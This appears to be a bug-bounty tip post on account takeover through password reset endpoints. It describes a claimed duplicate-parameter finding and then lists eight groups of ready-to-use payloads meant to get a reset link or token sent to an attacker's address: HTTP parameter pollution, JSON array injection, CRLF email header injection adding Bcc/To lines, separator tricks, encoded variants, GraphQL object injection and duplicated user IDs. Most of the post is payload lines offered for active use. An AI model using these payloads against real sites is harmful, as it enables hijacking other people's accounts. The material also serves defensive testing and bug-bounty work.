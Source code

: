 Bug Bounty Trick – Account Takeover with Password Reset I sent a request to a password reset endpoint on a system like this: 

login= victim@mail.com&login=mine@mail.com 

And guess what? A reset link was sent to both emails. But the weird thing is: the system only takes into account 
the first login parameter and associates token generation with the attacker's email account.
In other words, the link goes to the victim's email,
but my email manages the session. Result? I can reset the victim's account.
🙃 Sometimes just one parameter difference can bring down the entire system.
😉 Let me leave you with a few parameter manipulation techniques that I actively use;

## 1. Parameter Pollution: 

```
email=victim@mail.com&email=hacker@mail.com
email=attacker@mail.com&email=victim@mail.com 
```

## 2. JSON Array Injection 

```
email=["victim@mail.com","hacker@mail.com"] 
email=["attacker@mail.com","victim@mail.com"]
```

## 3. Carbon Copy (BCC abuse / Header Injection) 

```
email=victim@mail.com%0Abcc:attacker@mail.com 
email=victim@mail.com%0Ato:attacker@mail.com 
email=victim@mail.com %0ACc:attacker@mail.com
```

## 4. Separators 

```
email=victim@mail.com,attacker@mail.com
email=victim@mail.com attacker@mail.com 
email=victim@mail.com|attacker@mail.com 
email=victim@mail.com;attacker@mail.com
email=victim@mail.com///attacker@mail.com
```

## 5. Encoded Trick Variants 

```
email=victim%40mail.com&email=attacker%40mail.com
email=%22victim@mail.com%22%2C%22attacker@mail.com%22 
email=%5B%22victim@mail.com%22%2C%22attacker@mail.com%22%5D 
```

## 6. Injection inside objects (for GraphQL / JSON APIs) 
```
{"user": { "email": [" victim@mail.com ", " attacker@mail.com "] } }
```

## 7. Header Manipulation (SMTP Abuse)

```
email=victim@mail.com%0D%0ABcc:attacker@mail.com
email=victim@mail.com%0D%0ATo:attacker@mail.com
```

## 8. ID-based manipulation (eğer sistem e-posta yerine ID alıyorsa)

```
user_id=123&user_id=456
```

